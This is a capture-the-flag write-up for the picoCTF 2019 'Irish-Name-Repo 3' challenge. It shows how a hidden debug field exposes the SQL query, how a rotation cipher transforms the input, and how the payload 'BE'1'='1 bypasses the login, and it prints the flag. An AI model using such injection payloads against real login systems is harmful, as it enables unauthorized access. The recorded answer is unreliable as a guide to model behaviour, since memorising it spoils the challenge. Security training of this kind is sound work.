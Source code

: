 # Irish-Name-Repo 3 - Points: 400

## Problem
> There is a secure website running at https://2019shell1.picoctf.com/problem/32237/ ([link](https://2019shell1.picoctf.com/problem/32237/)) or http://2019shell1.picoctf.com:32237. Try to see if you can login as admin!

## Hints
> Seems like the password is encrypted.

## Overview

Just a normal login page. It seems like we have to do some injection exploits to break in the system.

## Solutions

I tried a basic SQL injection to the login form and a code 500 internal error is returned.

Let's inspect the code, specifically the login form.

```html
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
```

There's actually another parameter besides password which named debug and its value is set as 0 

Let's change it to 1 and submit the form once again using the same SQL injection technique.

The server returned:

```
password: 'OR'1'='1
SQL query: SELECT * FROM admin where password = ''BE'1'='1'
```

I typed ```OR``` in the password but the server read it as ```BE```, so there should be Caesar cipher encoding somewhere in the backend process. So I tried to use BE as the payload this time.

And it worked
```
password: 'BE'1'='1
SQL query: SELECT * FROM admin where password = ''OR'1'='1'
Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_5c27c4ea}
```
